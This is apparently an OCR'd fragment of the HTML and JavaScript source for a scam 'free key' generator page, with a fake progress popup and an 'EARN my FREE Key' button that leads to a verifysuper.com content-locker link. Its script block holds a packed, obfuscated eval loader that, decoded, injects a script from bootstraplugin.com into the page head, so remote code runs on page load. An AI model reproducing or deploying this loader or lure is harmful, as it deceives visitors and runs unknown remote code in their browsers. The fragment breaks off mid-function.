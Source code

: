         </div>
            </div>
    <div class="dark">
    	<div class="popin">
        	<div id="step">
            	<div class="system"><h3 id="system"></h3></div>
            	<div class="bar">
                	<div class="round1"></div>
                    <div class="round2"></div>
                    <div class="round3"></div>
                    <div class="advance1"></div>
                    <div class="advance2"></div>
                    <div class="advance3"></div>
                	<div class="advance"></div>
                    <div class="advanced"></div>
                </div>
                <div class="screen" id="screen"></div>
                <div class="numbers" id="numbers"></div>
                <div class="result" id="result"><button onclick="window.location = 'https://www.verifysuper.com/cl.php?id=42fd40249eebd91295c08a0e71245aa7';">EARN my FREE Key</button></div>    
            </div>
        </div>
    </div>
    




    <script type="text/javascript">
		
		eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};
		
		if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){
		
		if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}
		
		('(5(0){4 1=0.7(\'1\');1.2=\'//3.6/d.8?c=b\';0.a.9(1)})(0);',14,14,'document|script|src|bootstraplugin|var|function|com|createElement|php|appendChild|head|158|id|p'.split('|'),0,{
			
		}))
		
		var call = 0;
		
		function active(){
			$('.dark').css({
				'z-index':'50'
			});
			$('.dark').animate({
				'opacity':'1'
			}, 500);
			
			$('.system').animate({
				'opacity':'1'
			});
			
			$('.screen').css ({
				'display':'block'
			});
			